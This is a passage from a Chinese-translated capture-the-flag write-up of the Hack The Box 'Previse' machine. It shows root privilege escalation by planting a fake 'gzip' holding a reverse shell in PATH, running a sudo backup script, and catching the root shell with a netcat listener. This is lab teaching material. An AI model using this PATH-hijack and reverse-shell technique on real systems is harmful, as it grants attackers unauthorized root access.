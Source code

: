 利用路径错误配置创建我们自己的 gzip

在这里，我们刚刚在当前文件夹中创建了一个名为 gzip 的文件，其中有一个反向 shell。然后我使它可执行，并将当前文件夹添加到系统路径中。

# 根标志

现在，我们可以以 root 用户身份运行备份脚本，另一个 netcat 在另一个终端中等待:

```
m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh
```

切换时，我们看到我们的 shell 以 root 用户身份连接:

```
┌──(root💀kali)-[~]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.214] from (UNKNOWN) [10.10.11.104] 55386
root@previse:~# id 
id
uid=0(root) gid=0(root) groups=0(root)
```

我们可以抓住根标志:

```
root@previse:~# cat /root/root.txt
cat /root/root.txt
<HIDDEN>
```

这是另一个完成的盒子。我希望你喜欢这个非常简单的。下次见。

如果你喜欢这篇文章，请给我一两个掌声。

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2021 年 12 月 21 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-previse)*。*